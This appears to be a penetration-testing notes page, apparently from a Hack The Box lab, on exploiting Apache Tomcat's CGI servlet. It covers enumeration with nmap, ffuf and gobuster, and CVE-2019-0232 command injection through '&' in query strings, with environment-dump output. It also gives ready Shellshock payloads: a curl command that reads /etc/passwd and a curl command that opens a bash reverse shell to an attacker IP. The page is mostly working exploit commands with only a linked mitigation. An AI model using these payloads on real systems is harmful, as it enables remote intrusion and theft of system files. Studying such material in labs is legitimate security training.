 # Tomcat CGI

The CGI Servlet in Apache Tomcat helps web servers talk to programs outside the Tomcat environment. These external programs are usually CGI scripts in languages like Perl, Python, or Bash. The CGI Servlet takes requests from web browsers and sends them to these scripts for processing. Essentially, it allows web servers, like Apache2, to run external applications following the CGI standard and acts as a link between web servers and external data sources, like databases. It is typically used to render dynamic content onto web pages and acts as middleware between the web servers, external databases and the front end of the web application. CGI scripts are stored in /CGI-bin or /cgi

\


<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>



### Vulnerabilities&#x20;

there are a number of known vulnerabilities like CVE-2019-0232 that can result in RCE.&#x20;

#### CVE-2019-0232

the enabledCmdLineArguments setting for Tomcat CGI, when enabled, determines if command line arguments are created from the received query string. the servlet parses the query string and sends it to the CGI script as arguments.&#x20;

For example, the arguement in these calls are used to switch between the scripts actions:

```
http://example.com/cgi-bin/booksearch.cgi?action=title&query=the+great+gatsby

http://example.com/cgi-bin/booksearch.cgi?action=author&query=fitzgerald
```

When enableCmdLineArguements is enabled on a windows server - the servlet doesnt poperly validate input from the web browser before passing it to the script. this can then be used to perform a command injection.

For instance, an attacker can append `dir` to a valid command using `&` as a separator to execute `dir` on a Windows system. If the attacker controls the input to a CGI script that uses this command, they can inject their own commands after `&` to execute any command on the server. An example of this is `http://example.com/cgi-bin/hello.bat?&dir`

**if commands like whoami are not working - the path might not be set:**

Retrieve a list of environmental variables by calling the `set` command:

```http
# http://10.129.204.227:8080/cgi/welcome.bat?&set

Welcome to CGI, this section is not functional yet. Please return to home page.
AUTH_TYPE=
COMSPEC=C:\Windows\system32\cmd.exe
CONTENT_LENGTH=
CONTENT_TYPE=
GATEWAY_INTERFACE=CGI/1.1
HTTP_ACCEPT=text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
HTTP_ACCEPT_ENCODING=gzip, deflate
HTTP_ACCEPT_LANGUAGE=en-US,en;q=0.5
HTTP_HOST=10.129.204.227:8080
HTTP_USER_AGENT=Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
PATHEXT=.COM;.EXE;.BAT;.CMD;.VBS;.JS;.WS;.MSC
PATH_INFO=
PROMPT=$P$G
QUERY_STRING=&set
REMOTE_ADDR=10.10.14.58
REMOTE_HOST=10.10.14.58
REMOTE_IDENT=
REMOTE_USER=
REQUEST_METHOD=GET
REQUEST_URI=/cgi/welcome.bat
SCRIPT_FILENAME=C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi\welcome.bat
SCRIPT_NAME=/cgi/welcome.bat
SERVER_NAME=10.129.204.227
SERVER_PORT=8080
SERVER_PROTOCOL=HTTP/1.1
SERVER_SOFTWARE=TOMCAT
SystemRoot=C:\Windows
X_TOMCAT_SCRIPT_PATH=C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi\welcome.bat
```

URL encode your payload if the command has a space or special characters:

```
http://10.129.204.227:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe
```

### Enumeration

Look for tomcat:&#x20;

```shell-session
Adam-162@htb[/htb]$ nmap -p- -sC -Pn 10.129.204.227 --open 

Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-23 13:57 SAST
Nmap scan report for 10.129.204.227
Host is up (0.17s latency).
Not shown: 63648 closed tcp ports (conn-refused), 1873 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
22/tcp    open  ssh
| ssh-hostkey: 
|   2048 ae19ae07ef79b7905f1a7b8d42d56099 (RSA)
|   256 382e76cd0594a6e717d1808165262544 (ECDSA)
|_  256 35096912230f11bc546fddf797bd6150 (ED25519)
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
8009/tcp  open  ajp13
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp  open  http-proxy
|_http-title: Apache Tomcat/9.0.17
|_http-favicon: Apache Tomcat
47001/tcp open  winrm

Host script results:
| smb2-time: 
|   date: 2023-03-23T11:58:42
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

Nmap done: 1 IP address (1 host up) scanned in 165.25 seconds
```

### Finding CGI scripts&#x20;

we can use FFUF on the /cgi directory to locate sgi scripts we can try to exploit:&#x20;

```shell-session
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.cmd

gobuster dir -u http://10.129.204.231/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi
```

Its also important to fuzz for other extensions:

```shell-session
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.bat
```

### Shellshock CVE-2014-6271

> Security flaw in the Bash shell that can be used to inject commands via environment variables. This is a 25 year old bug that is still found in the wild frequently. the older bash version saves environment variables incorrectly resulting in the possible execution of operating system commands that are included after a function stored inside an environment variable.&#x20;

```
env y='() { :;}; echo vulnerable-shellshock' bash -c "echo not vulnerable"
```

#### Locate CGI scripts:

```shell-session
gobuster dir -u http://10.129.204.231/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi
```

Curl the script, see if it returns 200 or additonal data&#x20;

```shell-session
curl -i http://10.129.204.231/cgi-bin/access.cgi

HTTP/1.1 200 OK
Date: Thu, 23 Mar 2023 13:28:55 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 0
Content-Type: text/html
```

Validating vulnerability:&#x20;

```
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.129.204.231/cgi-bin/access.cgi
```

Exploiting for a reverse shell:

```
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.38/7777 0>&1' http://10.129.204.231/cgi-bin/access.cgi
```

#### Mitigation:

{% embed url="https://www.digitalocean.com/community/tutorials/how-to-protect-your-server-against-the-shellshock-bash-vulnerability" %}
